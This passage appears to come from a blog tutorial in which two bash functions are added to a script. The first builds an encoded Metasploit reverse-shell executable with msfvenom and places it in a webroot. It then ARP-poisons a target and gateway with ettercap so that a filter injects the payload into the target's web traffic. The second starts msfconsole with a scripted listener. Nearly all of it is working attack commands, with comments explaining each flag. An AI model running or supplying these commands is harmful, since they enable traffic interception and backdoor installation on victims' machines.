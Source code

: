 Now add the following two functions

{% highlight ruby %}
#HTTP Payload Injection /w BEEF/Metasploit

function inject_http ()
{
sudo sysctl -w net.ipv4.ip_forward=1;
msfvenom -a x86 --platform $msf_platform -p $msfpayload LHOST=$myIP LPORT=$lport -b "\x00" -e x86/shikata_ga_nai -f exe -o $HOME/http_payload.exe;

#msfvenom: Generates executables that provide backdoor access
#-a: Hardware architecture. Almost always x86
#--platform: Operating system to develop for
#-p: Type of attack. In this case, reverse_tcp
#LHOST: Out computer
#LPORT: Source port
#-b: Invalid byte (explination beyond the scope of tutorial
#-e: encoding: Almost always x86/shikata_ga_nai for exes
#-f: Executible format. Always EXE for Windows.
#-o: File output

sudo mv $HOME/http_payload.exe $msf_rc_http;

#Copy the payload to the webroot

sudo cp /etc/ettercap/etter.beef.conf /etc/ettercap/etter.conf;
#Replace the active etter.conf file
sed -i 's/MYIP/'$myIP'/g' $ettercap_filters/http;
#Place your current local IP into the ettercap filter
sudo etterfilter $ettercap_filters/http;
#Convert ettercap filter script to an ettercap readable format

sudo systemctl start apache2;
#Start apache
sudo ettercap -T -F $HOME/filter.ef -M arp:remote /$targetIP// /$gatewayIP//;
#Then poison with -F (filter)
sudo systemctl stop apache2;
sudo sysctl -w net.ipv4.ip_forward=0;
#Cleanup
}
{% endhighlight %}

{% highlight ruby %}
#Set up HTTP inject metasploit script rc

function exploit_http ()
{
sed -i 's/MYIP/'$myIP'/g' $msf_rc_path/$msf_rc_http;
sed -i 's/MYPORT/'$lport'/g' $msf_rc_path/$msf_rc_http;
#Place your current local IP into the rc script
sudo msfconsole -r $msf_rc_path/$msf_rc_http;
#Launch metasploit with the automated script
}

{% endhighlight %}
